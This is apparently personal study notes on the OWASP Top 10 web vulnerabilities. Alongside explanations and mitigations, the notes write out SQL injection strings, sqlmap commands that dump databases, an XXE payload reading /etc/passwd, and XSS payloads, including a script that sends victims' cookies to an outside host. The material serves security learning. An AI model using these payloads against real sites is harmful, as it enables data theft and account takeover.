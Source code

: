 # OWASP Top 10 (Open Web Application Security Project)

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML Ecternal Entity
5. Broken Access Control
6. Security Misconfiguration
7. Cross-site Scripting
8. Insecure Deserialization
9. Components with Known Vulnerabilities
10. Insufficient Logging & Monitoring

## 1. Injection

SQL Injection
* occurs when user controlled input is passed to SQL queries
* can pass in SQL queries to manipulate the outcome of queries
* access, modify, delete info in database

Command Injection
* occurs when user input is passed to system commands
* can execute arbitrary system commands (whoami, lsb_release, etc.)
* allow to gain access to users system

Mitigate
* use allow / whitelist = only accepted input is processed
* strip input = if input contains dangerous characters, they are removed before processing



```
Basic statement
> SELECT name, description FROM products WHERE id=9;

Comments done either with # or --

#10.124.211.96/newsdetails.php?id=26 or 2=2; -- -
#10.124.211.96/newsdetails.php?id=26 UNION SELECT 'null1'; -- -
#' or 1=1; -- -  | try this in login form


#SELECT description FROM items WHERE id=' ' UNION SELECT user (); -- -';


SQLMap -tool

#sqlmap -u <URL> -p <injection parameters> [options]
#sqlmap -u 'http://vitim.site/view.php?id=1141' -p id --technique=U 
	-uses UNION based SQLi

#sqlmap -u 'http://victim.site/view.php?id=1141' --tables
	-prints all the tables

#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --columns
#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --dump


-if you find credentials to test against SQL server
#mysql -u <username> -p<password> -h <ip>
#use <username>_accounts;
#show tables;
#select * from accounts;

```

## 2. Broken Authentication

Common flaws in authentication mechanisms
* brute force attacks
* use of weak credentials
* weak session cookies
  * if predictable values

Mitigate
* enforce strong password policy
* automatic lockout after X attempts
* Multi Factor Authentication
* sanitize the input(username & password) = can't create new user "<space>admin"


## 3. Sensitive Data Exposure
* data directly linked to customer, usernames, passwords
* can be accidental leak or MITM

## 4. XML Ecternal Entity
* XXE
* abuses features of XML parsers or data
* allows to interact with any backend or external systemss that the app itself can access
* can also cause DoS or Server-Side Request Forgery (SSRF)
* may also enable port scanning and lead to RCE
* in-band XXE = receive an immediate response to the XXE payload
* out-of-band XXE (OOB-XXE / blind XXE) = no immediate response from we app, have to reflect the output to some other file on their own server

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## 5. Broken Access Control
* visitor able to access protected page(s) that they are not authorised to view
  * being able to view sensitive info
  * accessing unauthorized functionality
* OWASP scenarios
  * Scenario 1

```
The application uses unverified data in a SQL call that is accessing account information:
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );

An attacker simply modifies the ‘acct’ parameter in the browser to send whatever account number they want. If not properly verified, the attacker can access any user’s account.
http://example.com/app/accountInfo?acct=notmyacct
```
  * Scenario 2
```
An attacker simply force browses to target URLs. Admin rights are required for access to the admin page.
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo
```

* IDOR - Insecure Direct Object Reference
  * IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access
  * If the site incorrectly configured user could just change https://site.com/account=1 to https://site.com/account=2

## 6. Security Misconfiguration
* permissions configured poorly on cloud services (S3 bucket)
* unneeded services, pages, accounts or privileges enabled
* default accounts/passwords
* overly detailed error messages
* not using HTTP security headers

## 7. Cross-Site Scripting (XSS)
* type of injection which can allow an attacker to execute malicious scripts and have it execute on a victim’s machine
* web app vulnerable to XSS if it doesn't sanitize user input
* XXS is possible on Javascript, VBScript, Flash, CSS
* Types of XX
  * Stored XSS
    * most dangerous XSS, malicious string inserted into the database (so the string originates from the websites db)
  * Reflected XSS 
    * malicious payload part of victims request to the website
    * site includes this payload in response back to the user
    * basically trick the user in clicking URL to execute malicious payload
  * DOM-Based XSS
    * DOM - Document Object Model, programming interface for HTML and XML docs
    * represents the page so that programs can change the document structure, style and content
 * XXS Payloads, commons
  * (<script>alert(“Hello World”)</script>) - creates popup
  * (document.write) - Override the website's HTML to add your own
  * (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - XSS keylogger
  * (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - local port scanner

```
- search/comment boxes should be tested first
- <h1>Hi</h1> -will test if input is sanitized or not
- test if javascript allowed <script>alert('XSS');</script>
- print out cookies <script>alert(document.cookie);</script>
- steal others cookies > use 'firebug' to login with that cookie

-cookies to another pc
<script>
var i = new Image();
i.src="http://192.168.99.11/get.php?cookies="+document.cookie;
</script>

-once you get cookie use firebug or "shift + F9" > storage > insert cookie in session

Replace HTML: <script>document.querySelector('#thm-title').textContent = 'My text here'</script>
```

## 8. Insecure Deserialization
* replacing data processed by an application with malicious code
* allows anything from DoS to RCE
* no reliable tool/framework - exploit only as dangerous as attackers skills
* any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained
  * E-Commerce Sites, Forums, APIs, Application runtimes (tomcat, jenkins...)
* cookies on FF = inspect element > storage
* https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3

## 9. Components with Known Vulnerabilities
* easy to miss an update
* you can search for "application X.X" and find exploits
* or exploit-db.com

## 10. Insufficient Logging and Monitoring
* What you should log:
  * HTTP status codes
  * Time Stamps
  * Usernames
  * API endpoints/page locations
  * IP addresses
* logging important, actions can be traced, risk and impact can be then determined
* if no logging: regulatory damage, risk of further attacks

